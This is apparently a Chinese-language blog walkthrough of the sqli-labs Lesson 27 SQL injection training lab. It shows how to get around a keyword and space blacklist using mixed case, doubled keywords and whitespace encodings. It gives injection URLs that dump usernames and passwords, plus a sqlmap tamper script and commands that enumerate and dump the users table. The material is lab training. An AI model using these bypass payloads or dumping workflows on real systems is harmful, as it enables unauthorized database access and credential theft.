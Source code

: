 ```yaml
---
title: sqli-labs lession-27 GET基于错误-你的UNION和SELECT归我所有-字符型单引号
date: 2018-10-06 15:18:50
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-27 GET基于错误-你的UNION和SELECT归我所有-字符型单引号

---

## 登录界面

![001](/img/sql/Lesson-27/001.png)

## 分析

切换PHP-5.4.45版本。

```
function blacklist($id)
{
$id= preg_replace('/[\/\*]/',"", $id);	//过滤 / 和 *
$id= preg_replace('/[--]/',"", $id);	//过滤 -
$id= preg_replace('/[#]/',"", $id);		//过滤 #
$id= preg_replace('/[ +]/',"", $id);	//过滤 空格 和 +
$id= preg_replace('/select/m',"", $id);	//过滤 select  /m:将字符串视为多行
$id= preg_replace('/[ +]/',"", $id);	//过滤 空格 和 +
$id= preg_replace('/union/s',"", $id);	//过滤 union
$id= preg_replace('/select/s',"", $id);	//过滤 select
$id= preg_replace('/UNION/s',"", $id);	//过滤 UNION
$id= preg_replace('/SELECT/s',"", $id);	//过滤 SELECT
$id= preg_replace('/Union/s',"", $id);	//过滤 Union
$id= preg_replace('/Select/s',"", $id);	//过滤 Select
return $id;
}
```



过滤了union和select,但是Mysql的关键字是不区分大小写的,可以混淆大小写绕过。

### 绕过Union和Select

1. 混淆大小写

   使用类似uNion和sElect的随机大小写替换

2. 双写绕过

   union能用类似于ununionion绕过

   select能使selseselectlectect绕过

### 绕过空格

1. /**/ 

被本课的/*过滤

2. `/**_**/`

被本课的/*过滤

3. #加一个换行符`%23%0A`和`-- `加一个换行符`--%0A`

分别被本课的#过滤和--过滤

4. 空白符替换

    %09 TAB键（水平） 可以
    
    %0A 新建一行	可以
    
    %0B TAB键（垂直） 可以
    
    %0C 新的一页	可以
    
    %0D return功能	可以
    
    %A0 空格   这里用不了

5. 用()绕过,意思就是不使用任何空格

## 手注

### 判断类型

`http://192.168.75.132/sql/Less-27/?id=2'and'1`

![002](/img/sql/Lesson-27/002.png)

单引号闭合。

### 获取字段数

`http://192.168.75.132/sql/Less-27/?id=2'%09uNion%09seLect%091,2,3%09and'1`

![003](/img/sql/Lesson-27/003.png)

### 直接上结果

`http://192.168.75.132/sql/Less-27/?id=1'%09and%091=2%09uNion%09seLect%091,(seLect%09group_concat(id,'~',username,'~',password)%09from%09security.users%09),3%09and'1`

![004](/img/sql/Lesson-27/004.png)

## SQLMAP

这次跑的有点久,多了一个UnionSelect.py绕过union和select。

```
#!/usr/bin/env python

"""
Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import re

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def tamper(payload, **kwargs):
    """
    Replaces union to ununionion,select to selseselectlectect
    >>> tamper('union select')
    'ununionion selseselectlectect'
    """

    retVal = payload

    if payload:
        retVal = re.sub(r"(?i)(union)", r"ununionion", re.sub(r"(?i)(select)", "selseselectlectect", payload))

    return retVal
```



```
UnionSelect.py：将union替代ununionion,select替代selseselectlectect
space0A.py	：将空格替代为%0A
count.py	：将count(*)替换成count(1)
```

`python sqlmap.py -u "http://192.168.75.132/sql/Less-27/?id=1" --technique E --dbms mysql --threads 10 --method GET --tamper "UnionSelect.py,space0A.py,count.py" --flush-session --fresh-queries -v 3`

![005](/img/sql/Lesson-27/005.png)

![006](/img/sql/Lesson-27/006.png)

`python sqlmap.py -u "http://192.168.75.132/sql/Less-27/?id=1" --technique E --dbms mysql --threads 10 --method GET --tamper "UnionSelect.py,space0A.py,count.py" --dbs`

![007](/img/sql/Lesson-27/007.png)

`python sqlmap.py -u "http://192.168.75.132/sql/Less-27/?id=1" --technique E --dbms mysql --threads 10 --method GET --tamper "UnionSelect.py,space0A.py,count.py" -D security --tables`

![008](/img/sql/Lesson-27/008.png)

`python sqlmap.py -u "http://192.168.75.132/sql/Less-27/?id=1" --technique E --dbms mysql --threads 10 --method GET --tamper "UnionSelect.py,space0A.py,count.py" -D security -T users --columns --dump`

![009](/img/sql/Lesson-27/009.png)